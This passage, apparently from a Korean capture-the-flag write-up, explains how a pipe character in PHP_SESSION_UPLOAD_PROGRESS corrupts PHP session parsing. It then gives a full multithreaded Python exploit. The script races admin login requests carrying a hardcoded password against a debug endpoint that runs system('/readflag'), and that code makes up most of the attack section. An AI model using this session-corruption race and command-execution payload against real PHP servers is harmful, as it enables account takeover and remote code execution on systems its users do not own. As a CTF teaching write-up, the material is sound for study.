 ```c
}
```    
     
PHP Session Key 조건은 위와 같지만, POST 요청으로 전달된 PHP_SESSION_UPLOAD_PROGRESS 파라미터 값이 Session Key에 적용될 때는 완화된 조건이 적용되어 , {} - ; | 와 같은 특수 문자 사용이 가능해진다.         
      
유저가 PHP_SESSION_UPLOAD_PROGRESS 파라미터에 `test|`와 같이 입력을 주게 되면, `upload_progress_test||a:5:{~~` 이와 같이 세션 데이터가 설정되어 Session Parsing 과정에서 이를 Broken Session으로 판단하여 Session Abort를 호출하여 이전 세션 값을 전부 삭제하게 된다.     
          
즉, 위 내용을 기반으로 Race Condition을 발생시키면 admin 계정에 로그인이 가능해진다.         
           
### Exploit Code    
```python
import urllib.parse
import requests 
import urllib
from threading import Thread

# url = "http://52.231.139.134" 
url = "http://localhost:5555"

def go1(): 
    while True:
        r = requests.post(
            f"{url}/admin_login.php",
            data={
                "username": "admin",
                "password": "superSecretAdminPassword!@#12",
                "PHP_SESSION_UPLOAD_PROGRESS": "test|"
            },
            cookies={ 
                "username": "A" * 1000,
                "password": "A" * 1000,
                "PHP_SESSION_UPLOAD_PROGRESS": "A" * 1000,
                "PHPSESSID": "orange"
            },
            files={"file": ("simple.txt", b"ccl" * 40960)}
        )
        if not "Incorrect Password" in r.text:
            if not "Smart admins never enter the wrong password :p" in r.text:
                if "99999" in r.text: 
                    print(end='admin')

def go2():
    while True: 
        r = requests.get(
            f"{url}/?mode=debug_mode&debug[]=system&debug[]=%2Freadflag",
            cookies={
                "PHPSESSID": "orange",
                "mode": "A" * 1000,
                "debug": "A" * 1000,
            }
        )
        if "99999" in r.text: 
            print(r.text) 
            exit(0)

for _ in range(10):
    thr1 = Thread(target=go1) 
    thr2 = Thread(target=go2) 

    thr1.start()
    thr2.start() 
```     
           